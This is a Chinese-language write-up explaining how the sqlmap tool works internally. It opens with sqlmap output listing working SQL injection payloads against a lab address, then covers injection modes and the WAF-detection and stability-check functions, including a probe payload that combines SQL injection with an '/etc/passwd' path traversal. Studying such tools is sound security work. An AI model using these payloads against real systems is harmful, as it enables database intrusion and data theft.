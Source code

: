 结果：sqlmap identified the following injection point(s) with a total of 51 HTTP(s) requests:

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=77 AND 3000=3000&limit=20&page=1

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=77 AND (SELECT 1418 FROM(SELECT COUNT(*),CONCAT(0x716a6a7871,(SELECT (ELT(1418=1418,1))),0x7178626b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&limit=20&page=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)
    Payload: id=77 OR SLEEP(5)&limit=20&page=1

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: id=77 UNION ALL SELECT NULL,NULL,CONCAT(0x716a6a7871,0x56686d4b7a45524a786e646977705a53796976497946616e58647064464644635a716c63706b4d44,0x7178626b71),NULL,NULL,NULL-- feNc&limit=20&page=1


Target	URL	Place	Parameter	Technique(s)	Note(s)
http://172.16.8.4:8890/api/brand/product?id=77&limit=20&page=1	GET	id	BETU
```
---

sqlmap支持五种不同的**注入模式**：

- 基于布尔的盲注，即可以根据返回页面判断条件真假的注入；

- 基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断；

- 基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中；

- 联合查询注入，可以使用union的情况下的注入；

- 堆查询注入，可以同时执行**多条语句**的执行时的注入。

---


## checkWaf
checkWaf()是**检测是否有WAF**,检测方法是NMAP的[http-waf-detect.nse](http://seclists.org/nmap-dev/2011/q2/att-1005/http-waf-detect.nse)。

比如页面为index.php?id=1，那现在添加一个随机变量index.php?id=1&aaa=2，设置paoyload类似为`AND 1=1 UNION ALL SELECT 1,2,3,table_name FROM information_schema.tables WHERE 2>1-- ../../../etc/passwd`，如果没有WAF，页面不会变化，如果有WAF，因为payload中有很多**敏感字符**，大多数时候页面都会发生改变。
具体通过thirdparty/identywaf/identYwaf.py 去判断是哪个waf，原理应该是通过**正则去匹配特征**

## checkStability
checkStability 这个函数检查URL内容是否稳定，**在每个请求中两次请求相同的页面，并有一个小的延迟**，以假定它是稳定的。如果请求相同的页面时页面的内容不同，那么动态性可能取决于其他参数，比如实例字符串匹配
